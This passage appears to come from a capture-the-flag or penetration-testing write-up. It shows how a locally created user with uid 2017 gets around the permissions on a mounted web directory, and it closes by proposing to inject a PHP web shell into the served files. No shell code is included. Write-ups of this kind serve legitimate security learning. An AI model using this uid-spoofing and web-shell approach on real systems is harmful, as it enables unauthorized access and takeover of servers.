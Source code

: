 The privileges of the two directories

```bash
ls -la html/
ls: cannot access 'html/.': Permission denied
ls: cannot access 'html/..': Permission denied
ls: cannot access 'html/.htaccess': Permission denied
ls: cannot access 'html/index.html': Permission denied
ls: cannot access 'html/images': Permission denied
ls: cannot access 'html/css': Permission denied
ls: cannot access 'html/js': Permission denied
total 0
d????????? ? ? ? ?            ? .
d????????? ? ? ? ?            ? ..
?????????? ? ? ? ?            ? css
?????????? ? ? ? ?            ? .htaccess
?????????? ? ? ? ?            ? images
?????????? ? ? ? ?            ? index.html
?????????? ? ? ? ?            ? js
```

```bash
ls -ld ross/ html/
drwxr-xr--  5 2017 www-data 4096 Jan 13 14:05 html/
drwxr-xr-x 14 1001 scanner  4096 Jan 13 13:46 ross/
```

The reason that our current user can't list the permissions of the html directory is because it is owned by user with uid 2017 and group www-data. Since the current user has none of those permissions, it can only list the contents of the directory from `r--` of the world permissions but not extended data or write permissions. 

It is possible to create a user with that uid and be able to access the shares. 

```bash
useradd rosstemp -u 2017 -m -s /bin/bash
```

Now, 

```bash
ls -ld html/
drwxr-xr-- 5 rosstemp www-data 4096 Jan 13 14:30 html/

ls -la html/
total 52
drwxr-xr-- 5 rosstemp www-data  4096 Jan 13 14:30 .
drwxr-xr-x 1 root     root        90 Jan 13 14:05 ..
drwxr-xr-x 2 rosstemp www-data  4096 Jan 13 14:30 css
-rw-r--r-- 1 rosstemp www-data    44 Oct 21  2022 .htaccess
drwxr-xr-x 2 rosstemp www-data  4096 Jan 13 14:30 images
-rw-r----- 1 rosstemp www-data 32532 Jan 13 14:30 index.html
drwxr-xr-x 2 rosstemp www-data  4096 Jan 13 14:30 js
```

Betting on the html directory mapping to the contents that the web server is serving, we might be able to inject our own PHP or another language web shell. 
